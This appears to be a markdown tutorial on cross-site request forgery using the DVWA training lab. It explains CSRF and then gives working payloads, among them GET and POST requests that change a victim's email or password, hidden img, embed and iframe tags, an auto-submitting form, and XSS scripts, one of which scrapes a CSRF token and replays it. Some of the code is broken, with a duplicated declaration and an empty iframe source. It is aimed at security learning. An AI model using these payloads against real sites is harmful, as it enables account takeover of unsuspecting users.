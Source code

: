 ## 1. CSRF Attack

![](https://portswigger.net/web-security/images/cross-site%20request%20forgery.svg)
>We will use DVWA Labs To Learn CSRF Attack


**What is CSRF Attack?**

In a successful CSRF attack, the attacker causes the victim user to carry out an action unintentionally. For example, this might be to change the email address on their account, to change their password, or to make a funds transfer. Depending on the nature of the action, the attacker might be able to gain full control over the user's account. If the compromised user has a privileged role within the application, then the attacker might be able to take full control of all the application's data and functionality. 

**Example URL (GET Method)**

```
http://target-vuln-web.com/email/change?email=attacker@anon.net
http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass
```
**Example Request (POST Method)**

```
POST /email/change HTTP/1.1
Host: target-vuln-web.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=cookievalues

email=attacker@anon.net
```

```
POST user/new_password HTTP/1.1
Host: target-vuln-web.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=cookievalues

password=newpass&comfirm_password=newpass
```

**Exploit CSRF Vulnerability Via HTML Injections (GET Method)**

>Using Image Tag
```
<img style="display:none;" src="http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass">
```

>Using Iframe Tag
```
 <iframe src="" style="display:none;"></iframe> 
```

>Using Embed Tag
```
 <embed type="image/jpg" src="http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass" style="display:none;"> 
```

**Exploit CSRF Vulnerability Via HTML Injections (POST Method)**

>Form + Script Tag
```
<form action="http://target-vuln-web.com/user/new_password" method="POST">
            <input type="hidden" name="password" value="newpass" />
            <input type="hidden" name="comfirm_password" value="newpass" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
```

**Exploit CSRF Vulnerability Via XSS (GET Method)**

>Whithout token
```
<script>
const HttpRequest = new XMLHttpRequest();
const url=const url = 'http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass'
;
HttpRequest.open("GET", url);
HttpRequest.send();
</script>
```

>With token
```
 <script>
        function change_password(){
            const request = new XMLHttpRequest();
            const url = "http://localhost:80/vulnerabilities/csrf/"
            

            request.open("GET", url);
            request.onreadystatechange = () => {
            if (request.readyState === request.DONE && request.status === 200) {

                var response = request.responseText;

                var user_token = /[a-f0-9]{32}/g.exec(response)[0]
                var payload = "http://localhost:80/vulnerabilities/csrf/?password_new=newpass&password_conf=newpass&Change=Change&user_token="+user_token;
                var second_request = new XMLHttpRequest();
                second_request.open("GET", payload);
                second_request.send()

            }
            };
            request.send()
        
    }
        </script>
</body>
```
